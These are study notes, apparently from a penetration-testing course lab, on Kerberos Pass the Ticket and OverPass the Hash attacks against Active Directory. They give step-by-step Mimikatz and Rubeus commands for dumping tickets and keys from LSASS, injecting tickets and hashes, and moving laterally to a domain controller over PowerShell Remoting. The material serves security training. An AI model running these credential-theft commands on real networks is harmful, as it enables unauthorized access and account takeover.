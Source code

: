 
Another method for moving laterally in an Active Directory environment is called a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/). In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash

## [[Kerberos]]


## Pass the Ticket (PtT) Attack

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.

- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the **LSASS (Local Security Authority Subsystem Service)** process.

`Mimikatz` module `sekurlsa::tickets /export`

#### Mimikatz - Export Tickets

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

.kirbi files have tickets

The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory.

 User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.

Service `krbtgt` -> TGT of that account

**Note:** At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.

#### Rubeus - Export Tickets

```cmd-session
Rubeus.exe dump /nowrap
```

To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.

---

## Pass the Key or OverPass the Hash

developed by Benjamin Delpy and Skip Duckwall in their presentation [Abusing Microsoft Kerberos - Sorry you guys don't get it](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18). Also [Will Schroeder](https://twitter.com/harmj0y) adapted their project to create the [Rubeus](https://github.com/GhostPack/Rubeus) tool.

#### Mimikatz - Extract Kerberos Keys

```cmd-session
 mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::ekeys
```

#### Mimikatz - Pass the Key or OverPass the Hash

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

#### Rubeus - Pass the Key or OverPass the Hash

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

To learn more about the difference between Mimikatz `sekurlsa::pth` and Rubeus `asktgt`, consult the Rubeus tool documentation [Example for OverPass the Hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash).

---

## Pass the Ticket (PtT)


#### Rubeus Pass the Ticket

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```


#### Rubeus - Pass the Ticket

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

#### Convert .kirbi to Base64 Format

```powershell-session

[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```


#### Pass the Ticket - Base64 Format

```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```





#### Mimikatz - Pass the Ticket

```cmd-session
mimikatz.exe 
```

```cmd-session
privilege::debug
```

```cmd-session

kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

```cmd-session

kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

## Pass The Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.

Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.



## Mimikatz - PowerShell Remoting with Pass the Ticket
#### Mimikatz - Pass the Ticket for Lateral Movement.

```cmd-session
mimikatz.exe
```
```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```


## Rubeus - PowerShell Remoting with Pass the Ticket

Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

#### Create a Sacrificial Process with Rubeus

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for Lateral Movement

```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```

## Practice Labs












